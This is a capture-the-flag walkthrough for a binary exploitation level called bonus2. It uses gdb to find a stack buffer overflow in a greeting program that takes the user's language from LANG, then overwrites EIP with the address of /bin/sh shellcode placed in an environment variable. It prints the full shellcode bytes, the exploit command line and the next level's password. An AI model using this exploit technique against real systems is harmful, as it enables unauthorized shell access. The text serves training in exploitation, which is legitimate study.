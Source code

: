 Here we have a program that requires 2 args. It will copy the first 40 bytes of av[1] in dest, then copy the first 32 bytes of av[2] in (dest + 40). So dest will be at most 72 characters, and it has a buffer of 76.

Then there is a call to getenv that will check the LANG env variable. This will be used in the greetuser() function, that will concatenate 'Hello' in the selected language with the previous buffer to a new variable called dest. At first glance we can't guess easily the buffer size of dest, so we'll try to see if we can manually overflow it using long strings.

av[1] needs to be 40 characters, otherwise a \0 will be written and we won't be able to use av[2].

    (gdb) run "1234567890123456789012345678901234567890" "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
    Starting program: /home/user/bonus2/bonus2 "1234567890123456789012345678901234567890" "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
    Hello 1234567890123456789012345678901234567890Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

    Program received signal SIGSEGV, Segmentation fault.
    0x08006241 in ?? ()
    (gdb) i r
    eax            0x4f	79
    ecx            0xffffffff	-1
    edx            0xb7fd28b8	-1208145736
    ebx            0xbffff640	-1073744320
    esp            0xbffff5f0	0xbffff5f0
    ebp            0x39614138	0x39614138  <-- offset 26
    esi            0xbffff68c	-1073744244
    edi            0xbffff63c	-1073744324
    eip            0x8006241	0x8006241
    [...]

We successfully overflowed EBP, but it won't be of much use here. EIP remain untouched. We can try another language to see if we get different results :

    $ export LANG=nl
    [...]
    (gdb) r 1234567890123456789012345678901234567890 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Starting program: /home/user/bonus2/bonus2 1234567890123456789012345678901234567890 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Goedemiddag! 1234567890123456789012345678901234567890Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

    Program received signal SIGSEGV, Segmentation fault.
    0x38614137 in ?? ()
    (gdb) i r
    eax            0x56	86
    ecx            0xffffffff	-1
    edx            0xb7fd28b8	-1208145736
    ebx            0xbffff640	-1073744320
    esp            0xbffff5f0	0xbffff5f0
    ebp            0x61413661	0x61413661  <-- offset 19
    esi            0xbffff68c	-1073744244
    edi            0xbffff63c	-1073744324
    eip            0x38614137	0x38614137  <-- offset 23

This time we can overflow EIP. What we can do now is simply store a shellcode calling /bin/sh in an environment variable, get its address and pass it to EIP, exactly like bonus0.

Let's try it :

    $ export PAYLOAD=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
    $ ./a.out
    address of $PAYLOAD: bfffffaa
    $ ./bonus2 1234567890123456789012345678901234567890 $(python -c 'print "A" * 23 + "\xaa\xff\xff\xbf"')
    Goedemiddag! 1234567890123456789012345678901234567890AAAAAAAAAAAAAAAAAAAAAAA����
    $ cd ../bonus3
    $ cat .pass
    71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

